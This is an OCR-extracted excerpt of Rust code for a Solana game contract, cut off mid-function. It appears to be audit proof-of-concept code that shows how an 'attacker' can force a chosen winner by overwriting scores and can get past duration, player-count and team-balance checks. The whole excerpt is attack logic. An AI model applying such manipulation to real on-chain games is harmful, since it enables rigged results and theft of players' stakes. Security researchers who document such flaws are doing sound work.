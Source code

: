 ```rust
    fn execute_result_override(
        ctx: Context<WinnerManipulation>,
        desired_winner: Pubkey
    ) -> Result<()> {
        let game_result = &mut ctx.accounts.game_result;
        let game_session = &ctx.accounts.game_session;

        // Override all result components to favor desired winner

        // 1. Override team assignment and scores
        let winner_team = get_player_team(&desired_winner, game_session)?.unwrap_or(0);
        game_result.winning_team = winner_team;

        if winner_team == 0 {
            game_result.team_red_score = 1000;
            game_result.team_blue_score = 100;
        } else {
            game_result.team_red_score = 100;
            game_result.team_blue_score = 1000;
        }

        // 2. Override individual scores
        game_result.individual_scores.clear();
        game_result.individual_scores.insert(desired_winner, 1000);

        // Add fake scores for other players
        for player in &game_session.players {
            if *player != desired_winner {
                game_result.individual_scores.insert(*player, 50);
            }
        }

        // 3. Override winner determination method
        game_result.winner_determination_method = WinnerMethod::HighestScore;

        emit!(ResultOverrideExecuted {
            original_winner: game_session.players.get(0).copied().unwrap_or_default(),
            forced_winner: desired_winner,
            override_method: "complete_result_override".to_string(),
        });

        Ok(())
    }

    fn execute_condition_bypass(ctx: Context<WinnerManipulation>) -> Result<()> {
        let game_session = &mut ctx.accounts.game_session;
        let game_result = &mut ctx.accounts.game_result;
        let attacker = ctx.accounts.attacker.key();

        // Bypass minimum game duration
        game_session.start_time = Clock::get()?.unix_timestamp - 1;
        game_session.end_time = Clock::get()?.unix_timestamp;

        // Bypass minimum player count
        game_session.players = vec![attacker]; // Solo victory

        // Bypass score requirements
        let minimal_scores = HashMap::from([(attacker, 1u32)]);

        // Bypass team balance requirements
        game_session.team_red = vec![attacker];
        game_session.team_blue = vec![]; // Empty opposing team

```